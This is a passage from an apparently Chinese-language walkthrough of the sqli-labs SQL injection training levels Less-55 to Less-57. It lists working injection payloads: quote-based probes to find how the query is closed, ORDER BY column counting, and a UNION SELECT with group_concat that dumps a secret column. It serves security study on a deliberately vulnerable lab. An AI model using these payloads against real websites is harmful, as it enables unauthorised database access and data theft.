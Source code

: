 其余与54类似

![image-20201112172903412](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112172903412.png)

获取表名BLA4DLSZPG

![image-20201112173139654](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112173139654.png)

获取到列名sessid,secret_XU4A

?id=-1)%20union%20select%201,2,group_concat(secret_XU4A)%20from%20challenges.BLA4DLSZPG--+

![image-20201112173255692](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112173255692.png)

x2r1qvXjUt9c0EynN17OrDhM

![image-20201112173355345](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112173355345.png)



## 0X3CLess-56

同Less-55类似 闭合方式不同    ‘）其余相同

![image-20201112174409460](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112174409460.png)



## 0X3DLess-57

判断闭合

?id=1  //正常

![image-20201113092201586](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113092201586.png)

?id=1' //正常   无报错，说明闭合中无‘

![image-20201113092318436](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113092318436.png)

?id=1"   //报错

![image-20201113092407251](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113092407251.png)

?id=1" and 1=1 --+   //正常

?id=1" and 1=2  --+  //报错

![image-20201113092524103](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113092524103.png)

判断闭合为”

?id=1" order by 3 --+ //正常

?id=1" order by 4 --+ //报错

判断列数3
